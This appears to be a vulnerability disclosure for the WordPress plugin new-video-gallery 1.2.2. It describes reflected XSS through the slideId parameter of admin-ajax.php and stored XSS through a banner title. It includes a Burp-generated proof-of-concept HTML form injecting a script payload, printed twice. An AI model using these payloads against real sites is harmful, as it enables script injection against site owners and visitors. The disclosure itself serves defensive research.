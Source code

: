 * App: new-video-gallery
* Verion: 1.2.2
* Issue: xss

# Detail
## 1
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.20.16:8888/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="video&#95;gallery&#95;js" />
      <input type="hidden" name="slideId" value="1&quot;&gt;&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
[new-video-gallery](https://wordpress.org/plugins/new-video-gallery/) is a Wordpress plugin for create YouTube Gallery & Create Vimeo Gallery into your WordPress site. In the version 1.2.2 there are some XSS issues.

At frist, in the file new-video-gallery/new-video-gallery.php:300 line, the function `_ajax_video_gallery()` can be controlled.


And then the function `_vg_ajax_callback_function($id)` will be sinked.
![1](1.png)
- The PoC:
```php
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.20.16:8888/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="video&#95;gallery&#95;js" />
      <input type="hidden" name="slideId" value="1&quot;&gt;&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![2](2.png)

## 2 
Press `Add Video Gallery` and into this page then press`ADD VIDEO BANNER`.You can upload an image and write the payload on hte `Title` label.
Then press Publish And You will get a `Shortcode`, press the `Shortcode` in your page. The xss will execute in the front page.


